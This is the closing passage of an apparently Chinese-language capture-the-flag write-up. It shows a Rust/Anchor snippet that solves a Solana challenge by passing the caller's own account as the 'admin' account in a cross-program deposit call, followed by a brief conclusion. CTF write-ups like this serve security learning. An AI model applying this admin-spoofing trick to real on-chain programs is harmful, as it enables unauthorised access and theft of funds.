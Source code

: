```rust
            reserve: ctx.accounts.reserve.to_account_info(),
            user_account: ctx.accounts.user_account.to_account_info(),
            mint: ctx.accounts.mint.to_account_info(),
            admin: ctx.accounts.user.to_account_info(), //i am now admin
            user: ctx.accounts.user.to_account_info(),
            token_program: ctx.accounts.token_program.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_deposit = CpiContext::new(ctx.accounts.chall.to_account_info(), deposit_accounts);
        chall::cpi::deposit(cpi_deposit, 1000)?;
```
 anchor_lang::prelude文档(https://docs.rs/anchor-lang/latest/anchor_lang/prelude/index.html)

## 结语:

总而言之,其misc以及OSINT的部分题目比较有趣,故此分享.如果文章中有什么错误欢迎通过邮件指出感谢!